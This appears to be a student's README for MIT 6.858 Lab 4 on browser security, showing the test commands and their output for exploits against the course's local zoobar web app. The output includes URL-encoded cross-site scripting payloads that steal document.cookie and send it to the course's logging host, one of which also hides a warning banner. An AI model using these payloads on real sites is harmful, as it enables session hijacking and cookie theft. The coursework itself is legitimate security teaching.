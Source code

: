 # Lab 4: Browser Security

This is the fourth lab from the MIT 6.858 Computer Security Systems class which is available for free on [MIT OpenCourseWare](https://ocw.mit.edu/courses/6-858-computer-systems-security-fall-2014/). I followed this online course independently and completed the labs on my own VM.

[Lab 4 Instructions](https://css.csail.mit.edu/6.858/2020/labs/lab4.html) 

My solutions to the exercises in this lab can be found in the files prefixed with `answer-`.

Use the following commands to run the test suite:

```xslt
$ git clone https://github.com/NolanJMcCafferty/MIT-6.858-Computer-Systems-Security
$ cd MIT-6.858-Computer-Systems-Security
$ git checkout lab4
$ make check
```

Test Results: 
 
(output lines with `[ ???? ]` indicate that the result must be checked manually by the grader)

```$xslt
student@6858-v20:~/lab$ make check
cc -m64 -g -std=c99 -Wall -Wno-format-overflow -D_GNU_SOURCE -static   -c -o zookd.o zookd.c
cc -m64 -g -std=c99 -Wall -Wno-format-overflow -D_GNU_SOURCE -static   -c -o http.o http.c
cc -m64  zookd.o http.o   -o zookd
./check-lab4.sh
Generating reference images...
Registering as grader, graderpassword
Registering as attacker, attackerpassword
Registering as grader1, password1
Registering as grader2, password2
Registering as grader3, password3
[ INFO ]: Testing exploit for Exercise 1...
Registering as grader, graderpassword
Registering as attacker, attackerpassword
Expecting cookie: grader#527dd40f6b16d560a6f57445aeeb7fa4
[ PASS ]: alert contains: grader#527dd40f6b16d560a6f57445aeeb7fa4
[ INFO ]: Testing exploit for Exercise 2...
Registering as grader, graderpassword
Registering as attacker, attackerpassword
[ ???? ]: Check log (https://css.csail.mit.edu/6.858/2020/labs/log.php), expecting string 'grader#0a1fce4e0636ba0efe10a5958388a776'
[ INFO ]: Testing exploit for Exercise 3...
Found URL: http://localhost:8080/zoobar/index.cgi/users?user=%22%20onfocus=%22alert(document.cookie)%22%20autofocus=%22&random=3
Registering as grader, graderpassword
Registering as attacker, attackerpassword
Expecting cookie: grader#cedd47e03e73b746696d551d69462603
[ PASS ]: alert contains: grader#cedd47e03e73b746696d551d69462603
[ INFO ]: Testing exploit for Exercise 4...
Found URL: http://localhost:8080/zoobar/index.cgi/users?user=%22%20onfocus=%22var%20img%20%3D%20new%20Image()%3Bimg.src%3D%27https%3A%2F%2Fcss.csail.mit.edu%2F6.858%2F2020%2Flabs%2Flog.php%3F%27%20%2B%20%27id%3Drollhens%27%20%2B%20%27%26payload%3D%27%20%2B%20encodeURIComponent(document.cookie)%20%2B%20%27%26random%3D%27%20%2B%20Math.random()%3Bimg.click()%3B%22%20autofocus=%22&random=3
Registering as grader, graderpassword
Registering as attacker, attackerpassword
[ ???? ]: Check log (https://css.csail.mit.edu/6.858/2020/labs/log.php), expecting string 'grader#887bdbc37577aee3f6f9891357aacfd0'
[ INFO ]: Testing exploit for Exercise 5...
Found URL: http://localhost:8080/zoobar/index.cgi/users?user=%22%20onfocus%3D%22var%20img%20%3D%20new%20Image()%3Bimg.src%3D%27https%3A%2F%2Fcss.csail.mit.edu%2F6.858%2F2020%2Flabs%2Flog.php%3F%27%20%2B%20%27id%3Drollhens%27%20%2B%20%27%26payload%3D%27%20%2B%20encodeURIComponent(document.cookie)%20%2B%20%27%26random%3D%27%20%2B%20Math.random()%3Bimg.click()%3Bwindow.onload%20%3D%20function()%20%7Bdocument.getElementsByClassName(%27warning%27)%5B0%5D.style.display%20%3D%20%27none%27%3B%7D%22%20autofocus%3D%22
Registering as grader, graderpassword
Registering as attacker, attackerpassword
[ ???? ]: Check log (https://css.csail.mit.edu/6.858/2020/labs/log.php), expecting string 'grader#d6bcc2e503b55d862f45a5d595bd4540'
[ PASS ]: ./lab4-tests/answer-5.png matched reference image (557200 non-background pixels)
```
